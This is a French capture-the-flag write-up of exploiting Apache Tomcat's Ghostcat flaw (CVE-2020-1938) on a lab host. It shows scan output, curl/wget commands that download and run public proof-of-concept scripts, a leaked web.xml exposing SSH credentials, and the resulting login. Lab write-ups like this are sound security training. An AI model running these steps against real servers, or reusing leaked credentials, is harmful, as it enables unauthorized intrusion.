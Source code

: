 ```
8080/tcp open  http-proxy syn-ack
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
```

> Apache Tomcat => http://target.thm:8080

## 2. Exploit 

option 1 : metasploit ... pas de module

option 2 : https://www.exploit-db.com/exploits/48143 

```sh
curl https://www.exploit-db.com/raw/48143 -o ghostcat-ydhcui.py
```

option 3 : https://raw.githubusercontent.com/w4fz5uck5/CVE-2020-1938-Clean-Version/master/ghostcat-poc-de-macho-alfa.py

```sh
wget https://raw.githubusercontent.com/w4fz5uck5/CVE-2020-1938-Clean-Version/master/ghostcat-poc-de-macho-alfa.py
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
pip install ajpy colorlog
python ghostcat-poc-de-macho-alfa.py target.thm
```

```xml
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

> skyfuck:8730281lkjlkjdqlksalks

On se connecte au serveur avec le compte skyfuck

```sh
ssh skyfuck@target.thm
The authenticity of host 'target.thm (10.10.59.46)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target.thm,10.10.59.46' (ECDSA) to the list of known hosts.
skyfuck@target.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

uid=1002(skyfuck) gid=1002(skyfuck) groups=1002(skyfuck)
```
